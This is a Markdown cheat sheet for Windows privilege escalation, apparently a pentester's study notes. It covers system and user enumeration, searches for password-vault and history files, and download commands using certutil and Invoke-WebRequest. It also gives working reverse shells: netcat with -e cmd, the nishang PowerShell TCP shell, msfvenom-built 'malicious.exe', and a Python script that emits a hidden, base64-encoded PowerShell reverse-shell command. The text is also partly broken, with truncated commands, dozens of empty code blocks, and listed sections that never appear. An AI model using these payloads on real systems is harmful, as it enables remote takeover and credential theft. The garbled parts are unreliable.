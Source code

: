 ## Table of Contents
1. [Basic](#Basic)
2. [File System](#File%20System)
3. [Users, Privileges and Permissions](#Users,%20Privileges%20and%20Permissions)
4. [File Transfer](#File%20Transfer)
5. [Reverse Shells](#Reverse%20Shells)
6. [SeImpersonatePrivilege](#SeImpersonatePrivilege)
7. SeBackupPrivilege
8. Cross Compilation
9. Services
10. Programs and Processes
11. DLL Hijacking
12. Registry
	1. Always Install Elevated
	2. Service ImagePath
	3. LoadAppInit_DLLs and AppInit_DLLs
	4. Run
	5. WinLogon
13. UAC Bypass
14. Windows Hashes
15. Credential Manager and Windows Vault
16. Scheduld Tasks
17. Enumeration Scripts
18. AMSI Bypass

## Basic

- Video:
	-  https://www.youtube.com/watch?v=-3UtOvZDWdk&list=PLJnLaWkc9xRh8hmNFWyzWMFgAHo8Lgr93&index=2&t=50s&pp=gAQBiAQB
- Text:
	- https://github.com/LeonardoE95/yt-en/blob/main/src/2024-06-19-windows-privesc-introduction-shell/content/notes.txt

operating system, version and architecture
```powershell
systeminfo
```

username
```powershell
whoami
```

get env variables
```powershell
set
```

print specific env variable value
```powershell
echo %PATH%
```

find path of executables
```powershell
where <EXE NAME>
```

get documentation
```powershell
help dir
```

## File System

search files recursively
```powershell
Get-ChildItem -Path C:\Users\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue
```

```powershell
Get-ChildItem -Path C:\Users\ -Include *.txt -File -Recurse -ErrorAction SilentlyContinue
```

Get history in memory
```powershell
Get-History
```

Get file where the history is saved
```powershell
(Get-PSReadlineOption).HistorySavePath
```

Default location for powershell history in Windows
```powershell
%UserProfile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```

 Transcript feature
```powershell
Start-Transcript -Path "C:\Users\Quickemu\Desktop\Log.txt
```

```powershell
Stop-Transcrip
```

Registry Hives
```powershell
HKEY_CLASSES_ROOT (HKCR)   -> C:\Windows\System32\Config\Software
HKEY_LOCAL_MACHINE (HKLM)  -> C:\Windows\System32\Config\SYSTEM
HKEY_USERS (HKU)           -> C:\Windows\System32\Config\DEFAULT
HKEY_CURRENT_USER (HKCU)   -> C:\Users\<UserName>\NTUSER.DAT
HKEY_CURRENT_CONFIG (HKCC) -> C:\Windows\System32\Config\SystemProfile
```

## Users, Privileges and Permissions

current user
```powershell
whoami
```

list my groups
```powershell
whoami /groups
```

privileges of current user
```powershell
whoami /priv
```

account policy for current user
```powershell
net accounts
```

list users in the system
```powershell
net user
```

list user detail
```powershell
net user <USERNAME>
```

list local users
```powershell
Get-LocalUser
```

list local groups
```powershell
Get-LocalGroup
```

gets members from a local group
```powershell
Get-LocalGroupMember <GROUP-NAME>
```

get permissions of file
```powershell
wmic useraccount get domain,name,sid
```

## File Transfer

```powershell
certutil -urlcache -split -f <URL> <OUTPUT-FILE>
```

```powershell
certutil -urlcache -split -f https://leonardotamiano.xyz/note.txt note.txt
```

```powershell
Invoke-WebRequest -uri <URL> -Outfile <OUTPUT-FILE>
```

```powershell
iwr -uri <URL> -Outfile <OUTPUT-FILE>
```

```powershell
iwr -uri https://leonardotamiano.xyz/note.txt -Outfile note.txt
```

## Reverse Shells

netcat
- windows
```powershell
iwr -uri https://raw.githubusercontent.com/int0x33/nc.exe/master/nc64.exe -Outfile netcat64.exe
```

- attacker
```powershell
nc -lvnp <PORT>
```

- windows
```powershell
nc64.exe <IP> <PORT> -e cmd
```

Invoke-PowerShellTcp
```powershell
iwr -uri https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1  -Outfile Invoke-PowerShellTcp.ps1
```

```powershell
.\Invoke-PowerShellT
```

```powershell
Invoke-PowerShellTcp -Reverse -IPAddress 192.168.122.1 -Port 43
```

msfvenom
- attacker
```powershell
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.122.1 LPORT=7777 -f exe -o malicious.exe
```

- windows
```powershell
.\malicious.exe
```

Custom powershell
```python
#!/usr/bin/env python3

import sys
import base64
#-----------------------

IP = "192.168.122.1"
PORT = 7777

def gen_payload(ip, port):
	payload = f"$client = New-Object System.Net.Sockets.TCPClient(\"{ip}\", {port});$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{{0}};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){{;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + \"PS \" + (pwd).Path + \"> \";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()}};$client.Close()"
	payload = "powershell -nop -w hidden -e " + base64.b64encode(payload.encode('utf16')[2:]).decode()

	return payload
#----------------------

def main():
	global IP, PORT
	ip, port = "", 0
	if len(sys.argv) < 3:
		print(f"[INFO]: Usage {sys.argv[0]} <IP> <PORT>")
		ip, port = IP, PORT
	else:
		ip, port = sys.argv[1], sys.argv[2]

	print(f"[INFO]: OK")
	print(f"[INFO]: Generating payload for {ip=} AND {port=}")

	payload = gen_payload(ip, port)

	print(f"[INFO]: Payload below\n")
	print(payload)
	print()
#---------------------

if __name__ == "__main__":
	main()
```

Executed as:
```powershell
python3 base64_powershell.py  192.168.122.1 7777
```

## SeImpersonatePrivilege


```powershell

```


```powershell

```


```powershell

```


```powershell

```


```powershell

```


```powershell

```


```powershell

```


```powershell

```


```powershell

```


```powershell

```


```powershell

```


```powershell

```


```powershell

```


```powershell

```


```powershell

```


```powershell

```


```powershell

```


```powershell

```


```powershell

```


```powershell

```


```powershell

```


```powershell

```


```powershell

```


```powershell

```


```powershell

```


```powershell

```


```powershell

```


```powershell

```


```powershell

```


```powershell

```


```powershell

```


```powershell

```


```powershell

```


```powershell

```


```powershell

```


```powershell

```


```powershell

```


```powershell

```


```powershell

```


```powershell

```


```powershell

```


```powershell

```


```powershell

```


```powershell

```


```powershell

```


```powershell

```


```powershell

```


```powershell

```


```powershell

```


```powershell

```


```powershell

```


```powershell

```


```powershell

```


```powershell

```


```powershell

```


```powershell

```


```powershell

```


```powershell

```


```powershell

```


```powershell

```


```powershell

```


```powershell

```


```powershell

```


```powershell

```


```powershell

```


```powershell

```
